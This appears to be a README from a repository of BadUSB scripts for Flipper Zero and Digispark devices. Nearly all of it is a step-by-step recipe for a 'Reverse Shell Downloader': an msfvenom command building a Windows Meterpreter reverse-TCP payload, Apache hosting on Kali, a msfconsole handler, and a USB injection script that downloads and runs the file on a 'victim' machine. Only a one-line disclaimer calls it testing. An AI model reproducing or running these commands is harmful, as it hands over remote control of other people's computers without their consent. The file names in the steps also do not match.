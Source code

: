 # BadUSB
BadUSB scripts and files for Flipper Zero and Digispark

How to use the Reverse Shell Downloader:

1. You will need Kali Linux installed on the attacker's machine and Windows on the victim's machine
2. Run the following command on Kali (add IP address and Port first) - msfvenom -p windows/meterpreter/reverse_tcp LHOST=KALI_IP_ADDRESS LPORT=PORT_TO_USE -f exe > rs_exploitl.exe - this will create an exe file
3. Move the exe file to /var/www/html on Kali - this will make it available for hosting through Apache
4. Run the following command on Kali - service apache2 start - this will start apache and host the created file
5. Check the status of apache by running the following command - service apache2 status - it should show as active
6. Start the shell handler on Kali with the following command (add IP address and Port first) - msfconsole -x 'use exploit/multi/handler; set payload windows/meterpreter/reverse_tcp; set LHOST SAME_IP_AS_ABOVE; set LPORT SAME_PORT_AS_ABOVE ;exploit' - it should show as 'started'
7. Set the URL in the injection script (including IP address) to http://SAME_IP_AS_ABOVE/exploitl.exe then inject it into the Windows machine - it will download the exe file and run it, and Kali will connect. You now have shell access!

Note that this script is just for testing purposes - don't break into people's computers.
